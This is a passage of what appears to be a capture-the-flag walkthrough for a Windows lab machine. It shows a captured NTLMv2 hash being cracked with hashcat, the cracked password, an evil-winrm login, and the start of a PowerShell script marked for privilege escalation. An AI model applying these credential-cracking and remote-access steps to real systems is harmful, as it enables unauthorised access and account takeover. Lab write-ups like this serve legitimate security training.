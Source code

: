 wait for buse to click the link...

![responder](/responder.png)

![sparkexploit](/sparkexploit.png)

we receive a hash, in the NTLMv2 format. hopefully, we can crack it with hashcat (and rockyou.txt):

```
hashcat.exe -a 0 -m 5600 "buse::WINDCORP:1122334455667788:96320659CCC8CCD0C23852F82AA669C8:0101000000000000792F24210DCCD701CB9891E68DB963FB000000000200060053004D0042000100160053004D0042002D0054004F004F004C004B00490054000400120073006D0062002E006C006F00630061006C000300280073006500720076006500720032003000300033002E0073006D0062002E006C006F00630061006C000500120073006D0062002E006C006F00630061006C000800300030000000000000000100000000200000B25F9F074A7F2B076C71892C3D7F9B988260CA42BCBEB4E1863C7810B3FF276D0A00100000000000000000000000000000000000090000000000000000000000" C:\rockyou.txt
```

upon a successful crack, we'll get the password ```uzunLM+3131```. great! now we have another set of credentials -- buse:uzunLM+3131


note: i do recommend saving found/cracked credentials in a text file. that way we're not constantly scrolling through terminal trying to find them.

```
echo "buse:uzunLM+3131" > creds.txt
```


now we get to use one of my favourite tools ever: [evil winrm](https://kalilinuxtutorials.com/evil-winrm-hacking-pentesting/). if you don't know, evil winrm is basically the go-to tool, sometimes used by sysadmins but mostly by hackers, to remotely access a windows machine. it's extremely useful in the post-exploitation phase.

```
evil-winrm -u buse -p uzunLM+3131 -i windcorp.thm
```

this will log us in as buse, and upon poking around, you'll locate the 2nd flag. 

what's more interesting though, and which proves to eventually be vital in privilege escalation, is a folder in C:\ that contains a powershell script and its log. 

![busescripts](/busescripts.png)

the code for the checkservers.ps1 script is as follows:

```powershell
# reset the lists of hosts prior to looping
$OutageHosts = $Null
# specify the time you want email notifications resent for hosts that are down
$EmailTimeOut = 30
# specify the time you want to cycle through your host lists.
$SleepTimeOut = 45
# specify the maximum hosts that can be down before the script is aborted
$MaxOutageCount = 10
# specify who gets notified
$notificationto = "brittanycr@windcorp.thm"
# specify where the notifications come from
$notificationfrom = "admin@windcorp.thm"
# specify the SMTP server
$smtpserver = "relay.windcorp.thm"

# start looping here
Do{
$available = $Null
$notavailable = $Null
Write-Host (Get-Date)

# Read the File with the Hosts every cycle, this way to can add/remove hosts
```